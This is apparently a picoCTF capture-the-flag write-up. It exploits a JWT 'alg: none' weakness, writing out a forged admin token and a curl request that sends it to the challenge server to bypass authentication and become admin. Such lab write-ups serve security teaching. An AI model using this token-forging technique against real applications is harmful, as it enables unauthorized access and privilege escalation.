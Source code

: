 ## Description
Most web application developers use third party components without testing their security. Some of the past affected companies are:

    Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
    Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
    VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one? The website is running here. Can you become an admin? You can login as test with the password Test123! to get started.

## Solution

Checking the website, there is a login page which after login we will receive a jwt token in cookie. we can see the cookie by going in the `Inspect Element -> Storage -> Cookies`. here is a sample of curl request that browser sent to website with cookie:

```bash
$ curl "http://saturn.picoctf.net:49698/private" --header "Cookie:token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzExMDA4ODkxMjMyLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6MTIzLjApIEdlY2tvLzIwMTAwMTAxIEZpcmVmb3gvMTIzLjAiLCJyb2xlIjoidXNlciIsImlhdCI6MTcxMTAwODg5MX0.7O9cWTPMoEpSmIjbQikIW4ZEi5_4rcktoNvD7UYZGXY"
```

We can decode this jwt using sites like `jwt.io`. here is the decoded payload:
```
HEADER SECTION:
{
  "typ": "JWT",
  "alg": "HS256"
}

PAYLOAD:
{
  "auth": 1711008891232,
  "agent": "Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0",
  "role": "user",
  "iat": 1711008891
}

and a verify signature section
```

We can check for different vulnerbilities of JWT Framework. One idea is to change alg to 'none' and skip the verify section. Because for all other algorigthms we should have secret info to make the verify section and jwt to work.

Ok. let's make a jwt request with `none` algorithm and `role=admin`

Base64 of header section:
```
{
  "typ": "JWT",
  "alg": "none"
}

will be:  ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0=
```

Base64 of payload section with role admin:
```
{
  "auth": 1711008891232,
  "agent": "Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0",
  "role": "admin",
  "iat": 1711008891
}

will be: ewogICJhdXRoIjogMTcxMTAwODg5MTIzMiwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjoxMjMuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMjMuMCIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNzExMDA4ODkxCn0=
```

let's make jwt with following structure:
```
<header base64 without =>.<payload base64 without =>.<empty verify section>
```

And it will be:
```
ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJhdXRoIjogMTcxMTAwODg5MTIzMiwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjoxMjMuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMjMuMCIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNzExMDA4ODkxCn0.
```

And making the curl request:
```bash
$ curl "http://saturn.picoctf.net:49698/private" --header "Cookie:token=ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJhdXRoIjogMTcxMTAwODg5MTIzMiwKICAiYWdlbnQiOiAiTW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0OyBydjoxMjMuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMjMuMCIsCiAgInJvbGUiOiAiYWRtaW4iLAogICJpYXQiOiAxNzExMDA4ODkxCn0."
```

And we will get the flag.